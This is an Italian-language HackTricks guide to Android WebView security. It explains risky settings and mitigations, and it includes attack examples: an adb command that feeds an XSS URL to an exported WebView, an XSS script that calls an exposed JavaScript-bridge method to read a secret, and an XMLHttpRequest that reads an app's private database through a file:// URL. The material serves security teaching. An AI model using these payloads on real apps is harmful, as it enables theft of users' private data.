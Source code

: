 # Webview Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Guida alle Configurazioni e Sicurezza di WebView

### Panoramica delle Vulnerabilità di WebView

Un aspetto critico dello sviluppo Android riguarda la corretta gestione delle WebView. Questa guida evidenzia le configurazioni chiave e le pratiche di sicurezza per mitigare i rischi associati all'uso delle WebView.

![WebView Example](<../../.gitbook/assets/image (1190).png>)

### **Accesso ai File nelle WebView**

Per impostazione predefinita, le WebView consentono l'accesso ai file. Questa funzionalità è controllata dal metodo `setAllowFileAccess()`, disponibile dalla versione 3 dell'API Android (Cupcake 1.5). Le applicazioni con il permesso **android.permission.READ\_EXTERNAL\_STORAGE** possono leggere file dallo storage esterno utilizzando uno schema URL di file (`file://path/to/file`).

#### **Funzionalità Deprecate: Accesso Universale e Accesso ai File da URL**

* **Accesso Universale da URL di File**: Questa funzionalità deprecata consentiva richieste cross-origin da URL di file, presentando un rischio significativo per la sicurezza a causa di potenziali attacchi XSS. L'impostazione predefinita è disabilitata (`false`) per le app destinate ad Android Jelly Bean e versioni successive.
* Per controllare questa impostazione, utilizzare `getAllowUniversalAccessFromFileURLs()`.
* Per modificare questa impostazione, utilizzare `setAllowUniversalAccessFromFileURLs(boolean)`.
* **Accesso ai File da URL di File**: Questa funzionalità, anch'essa deprecata, controllava l'accesso ai contenuti da altri URL di schema file. Come l'accesso universale, la sua impostazione predefinita è disabilitata per una maggiore sicurezza.
* Utilizzare `getAllowFileAccessFromFileURLs()` per controllare e `setAllowFileAccessFromFileURLs(boolean)` per impostare.

#### **Caricamento Sicuro dei File**

Per disabilitare l'accesso al file system pur accedendo a risorse e asset, si utilizza il metodo `setAllowFileAccess()`. Con Android R e versioni successive, l'impostazione predefinita è `false`.

* Controllare con `getAllowFileAccess()`.
* Abilitare o disabilitare con `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

La classe **WebViewAssetLoader** è l'approccio moderno per il caricamento di file locali. Utilizza URL http(s) per accedere ad asset e risorse locali, allineandosi con la politica Same-Origin, facilitando così la gestione del CORS.

### loadUrl

Questa è una funzione comune utilizzata per caricare URL arbitrari in una webview:
```java
webview.loadUrl("<url here>")
```
Ofc, un potenziale attaccante non dovrebbe mai essere in grado di **controllare l'URL** che un'applicazione sta per caricare.

### **Gestione di JavaScript e Intent Scheme**

* **JavaScript**: Disabilitato per impostazione predefinita nei WebView, può essere abilitato tramite `setJavaScriptEnabled()`. Si consiglia cautela poiché abilitare JavaScript senza le giuste protezioni può introdurre vulnerabilità di sicurezza.
* **Intent Scheme**: I WebView possono gestire lo schema `intent`, potenzialmente portando a exploit se non gestito con attenzione. Un esempio di vulnerabilità riguardava un parametro WebView esposto "support\_url" che poteva essere sfruttato per eseguire attacchi di cross-site scripting (XSS).

![Vulnerable WebView](<../../.gitbook/assets/image (1191).png>)

Esempio di sfruttamento utilizzando adb:

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Javascript Bridge

Una funzionalità è fornita da Android che consente a **JavaScript** in un WebView di invocare **funzioni native dell'app Android**. Questo viene realizzato utilizzando il metodo `addJavascriptInterface`, che integra JavaScript con le funzionalità native di Android, definito come un _WebView JavaScript bridge_. Si consiglia cautela poiché questo metodo consente a tutte le pagine all'interno del WebView di accedere all'oggetto JavaScript Interface registrato, comportando un rischio per la sicurezza se informazioni sensibili vengono esposte attraverso queste interfacce.

* **È necessaria un'estrema cautela** per le app destinate a versioni di Android inferiori a 4.2 a causa di una vulnerabilità che consente l'esecuzione di codice remoto tramite JavaScript malevolo, sfruttando la riflessione.

#### Implementing a JavaScript Bridge

* **Le interfacce JavaScript** possono interagire con il codice nativo, come mostrato negli esempi in cui un metodo di classe è esposto a JavaScript:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* Il JavaScript Bridge è abilitato aggiungendo un'interfaccia al WebView:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* Potenziale sfruttamento tramite JavaScript, ad esempio, tramite un attacco XSS, consente la chiamata di metodi Java esposti:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* Per mitigare i rischi, **limitare l'uso del ponte JavaScript** al codice fornito con l'APK e impedire il caricamento di JavaScript da fonti remote. Per i dispositivi più vecchi, impostare il livello API minimo a 17.

### Esecuzione Remota di Codice Basata su Riflesso (RCE)

* Un metodo documentato consente di ottenere RCE tramite riflessione eseguendo un payload specifico. Tuttavia, l'annotazione `@JavascriptInterface` impedisce l'accesso non autorizzato ai metodi, limitando la superficie di attacco.

### Debug Remoto

* **Il debug remoto** è possibile con **Chrome Developer Tools**, consentendo interazione ed esecuzione arbitraria di JavaScript all'interno del contenuto WebView.

#### Abilitare il Debug Remoto

* Il debug remoto può essere abilitato per tutti i WebView all'interno di un'applicazione tramite:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* Per abilitare il debug in modo condizionale in base allo stato di debug dell'applicazione:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Esfiltrare file arbitrari

* Dimostra l'esfiltrazione di file arbitrari utilizzando un XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Riferimenti

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
